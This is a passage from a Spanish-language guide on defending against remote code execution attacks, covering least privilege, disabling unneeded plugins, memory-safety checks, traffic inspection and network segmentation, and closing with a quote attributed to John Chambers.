Durante las pruebas, observamos que los comandos se ejecutaban con privilegios de root. Para evitar esto, es importante que los servicios se ejecuten con los permisos mínimos necesarios, reduciendo así el impacto de un posible ataque.

==== 4. Desactivación de Funcionalidades Innecesarias

Deshabilita módulos, extensiones o plugins que no sean estrictamente necesarios. Cada componente extra aumenta la superficie de ataque y puede introducir vulnerabilidades.

==== 5. Gestión Segura de Memoria

Algunos ataques RCE explotan errores como los desbordamientos de búfer. Realiza análisis de seguridad periódicos para identificar fallos en la administración de memoria y corregirlos a tiempo.

==== 6. Inspección del Tráfico de Red

Los ataques RCE suelen realizarse de forma remota a través de la red. Utiliza herramientas de inspección profunda del tráfico (como WAF o firewalls de nueva generación) para bloquear intentos de explotación y detectar actividad remota sospechosa.

==== 7. Control de Acceso y Segmentación

Un atacante que consigue ejecutar código remotamente puede intentar moverse lateralmente en la red. La segmentación de red, el control de acceso y una arquitectura de confianza cero ayudan a limitar el alcance del atacante y proteger los sistemas más críticos.

----
"Existen dos tipos de empresas: las que han sido hackeadas y las que aún no saben que fueron hackeadas."

- John Chambers
----